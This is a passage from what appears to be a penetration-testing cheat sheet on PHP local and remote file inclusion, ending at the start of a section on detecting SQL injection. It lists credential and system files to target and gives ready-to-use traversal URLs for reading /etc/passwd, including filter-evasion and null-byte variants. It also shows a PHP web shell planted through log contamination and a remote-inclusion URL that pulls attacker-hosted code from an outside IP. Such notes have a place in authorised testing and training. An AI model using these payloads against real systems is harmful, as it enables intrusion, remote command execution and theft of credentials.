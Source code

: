     -   LFI OSX Files:
        /etc/fstab
        /etc/master.passwd
        /etc/resolv.conf
        /etc/sudoers
        /etc/sysctl.conf

    -   LFI - Download passwords file
        [*http://$ip/index.php?page=/etc/passwd*](about:blank)
        [*http://$ip/index.php?file=../../../../etc/passwd*](about:blank)

    -   LFI - Download passwords file with filter evasion
        [*http://$ip/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd*](about:blank)

    -   Local File Inclusion - In versions of PHP below 5.3 we can
        terminate with null byte
        GET
        /addguestbook.php?name=Haxor&comment=Merci!&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00

    -   Contaminating Log Files `<?php echo shell_exec($_GET['cmd']);?>`

    -   For a Remote File Inclusion look for php code that is not  sanitized and passed to the PHP include function and the php.ini
        file must be configured to allow remote files

        */etc/php5/cgi/php.ini* - "allow_url_fopen" and "allow_url_include" both set to "on"

        `include($_REQUEST["file"].".php");`

    -   Remote File Inclusion

         `http://192.168.11.35/addguestbook.php?name=a&comment=b&LANG=http://192.168.10.5/evil.txt `

         `<?php echo shell\_exec("ipconfig");?>`

-   <span id="_mgu7e3u7svak" class="anchor"><span id="_Toc480741820" class="anchor"></span></span>Database Vulnerabilities
    ----------------------------------------------------------------------------------------------------------------------

    -   Playing with SQL Syntax
    A great tool I have found for playing with SQL Syntax for a variety of database types (MSSQL Server, MySql, PostGreSql, Oracle) is SQL Fiddle:

    http://sqlfiddle.com

    Another site is rextester.com:

    http://rextester.com/l/mysql_online_compiler

    -   Detecting SQL Injection Vulnerabilities.

         Most modern automated scanner tools use time delay techniques to detect SQL injection vulnerabilities.  This method can tell you if a SQL injection vulnerability is present even if it is a "blind" sql injection vulnerabilit that does not provide any data back.  You know your SQL injection is working when the server takes a LOooooong time to respond.  I have added a line comment at the end of each injection statement just in case there is additional SQL code after the injection point.

